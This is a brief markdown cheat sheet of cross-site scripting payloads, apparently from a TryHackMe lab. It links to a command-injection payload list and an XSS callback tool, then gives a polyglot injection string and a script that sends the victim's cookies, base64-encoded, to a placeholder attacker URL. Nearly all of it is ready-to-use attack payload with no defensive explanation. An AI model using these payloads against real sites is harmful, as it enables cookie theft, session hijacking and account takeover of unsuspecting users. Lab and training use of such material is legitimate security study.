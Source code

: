 General Information:
- Payloads
	https://github.com/payloadbox/command-injection-payload-list
- XSS Hunter Express
	https://github.com/mandatoryprogrammer/xsshunter-express


**One Size Beats All Injection:**

 ```
 /*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM')
 )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
 ```


**Basic Injection:**

```
 </textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>
```
 